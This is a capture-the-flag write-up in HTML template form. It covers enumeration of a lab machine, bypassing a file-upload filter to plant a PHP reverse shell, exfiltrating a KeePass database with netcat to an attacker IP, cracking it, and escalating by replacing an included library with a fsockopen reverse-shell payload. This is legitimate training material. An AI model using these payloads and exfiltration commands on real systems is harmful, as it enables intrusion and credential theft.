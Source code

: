 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We start by scanning the ports.")}}

{{console("nmap -T5 -p- 10.10.153.1", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-10 17:37 CET
Nmap scan report for 10.10.153.1
Host is up (0.077s latency).
Not shown: 55352 closed tcp ports (conn-refused), 10179 filtered tcp ports (no-response)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 387.01 seconds")}}

{{text("We find 4 ports open.")}}

{{list(['22 (SSH)', '80 (HTTP)', '139 (netbios-ssn)', '445 (microsoft-ds)'])}}

{{text("I visited the web page on port 80 and was presented a login page.")}}

{{image("../../static/writeups/ohmyweb/images/000001.jpg")}}

{{text("I didn't have any credentials, so I continued with directory enumerating.")}}

{{console("gobuster dir -u http://10.10.153.1 -w /usr/share/wordlists/dirb/common.txt", "===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.153.1
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/cloud                (Status: 301) [Size: 310] [--> http://10.10.153.1/cloud/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.153.1/css/]
/server-status        (Status: 403) [Size: 276]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================")}}

{{text("<code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>cloud</code> directory looked the most promising so I checked it out.")}}

{{image("../../static/writeups/ohmyweb/images/000002.jpg")}}

{{text("It seemed like it was a file upload type of site.")}}

{{text("This of course means uploading our own reverse shell any trying to execute it.")}}

{{text("I proceeded to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>revshells.com</code> and copied the PentestMonkey reverse shell into a file.")}}

{{text("Then I hosted a web server by using python and downloaded the file that I saved.")}}

{{text("Uploading a file named <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>reverse.php</code> didn't seem to work.")}}

{{text("There was probably a some type of filter in place so I modified the external URL to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://MY_IP/reverse.php .png</code> and it worked.")}}

{{text("After setting up a listener and visting the page the file was uploaded to, I got a connection.")}}

{{image("../../static/writeups/ohmyweb/images/000003.jpg")}}

{{header}}

{{text("After upgrading my shell, I began looking around the system.")}}

{{text("One interesting thing was a KeePass file inside of the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/opt</code> directory.")}}

{{text("I downloaded the file onto my machine by using:")}}

{{text("On my machine")}}

{{console("nc -nlvp 4444 > dataset.kdbx")}}

{{text("On victim machine")}}

{{console("nc MY_IP 4444 < dataset.kdbx")}}

{{text("I needed this database password in order to read it so I used <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>keepas2john</code>.")}}

{{image("../../static/writeups/ohmyweb/images/000004.jpg")}}

{{text("After getting the password, I opened this file using KeePass and got credentials to user <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>sysadmin</code>.")}}

{{image("../../static/writeups/ohmyweb/images/000005.jpg")}}

{{header}}

{{text("After logging in via SSH, I found a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>script.php</code> file inside of the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>scripts</code> folder.")}}

{{console("cat script.php", "<?php

//Backup of scripts sysadmin folder
require_once('lib/backup.inc.php');
zipData('/home/sysadmin/scripts', '/var/backups/backup.zip');
echo 'Successful', PHP_EOL;

//Files scheduled removal
$dir = "/var/www/html/cloud/images";
if(file_exists($dir)){
    $di = new RecursiveDirectoryIterator($dir, FilesystemIterator::SKIP_DOTS);
    $ri = new RecursiveIteratorIterator($di, RecursiveIteratorIterator::CHILD_FIRST);
    foreach ( $ri as $file ) {
        $file->isDir() ?  rmdir($file) : unlink($file);
    }
}
?>")}}

{{text("It's a script for creating a backup. The file itself is not writeable so we are not able to edit it.")}}

{{text("We can notice the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>require_once('lib/backup.inc.php');</code> line calls a library from somewhere else.")}}

{{text("Let's check if the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>backup.inc.php</code> file is writeable.")}}

{{console("ls -la", "drwxr-xr-x 2 sysadmin root  4096 Jul 26  2022 .
drwxr-xr-x 3 root     root  4096 Jul  8  2022 ..
-rw-r--r-- 1 root     root  9458 Jul 26  2022 application.php
-rw-r--r-- 1 root     root   967 Jul  6  2022 backup.inc.php
-rw-r--r-- 1 root     root 24514 Jul 26  2022 bio2rdfapi.php
...")}}

{{text("It is not writeable, but the directory itself is. That means we can just swap the file with a different one that uses the same name.")}}

{{text("I moved <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>backup.inc.php</code> to my home directory and edited it so that it would give me a reverse shell.")}}

{{console("cat backup.inc.php", "$sock=fsockopen("10.9.6.6",1234);exec("bash <&3 >&3 2>&3");")}}

{{text("After that I moved it back to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>scripts/lib</code>, set up a listener and waited for a connection.")}}

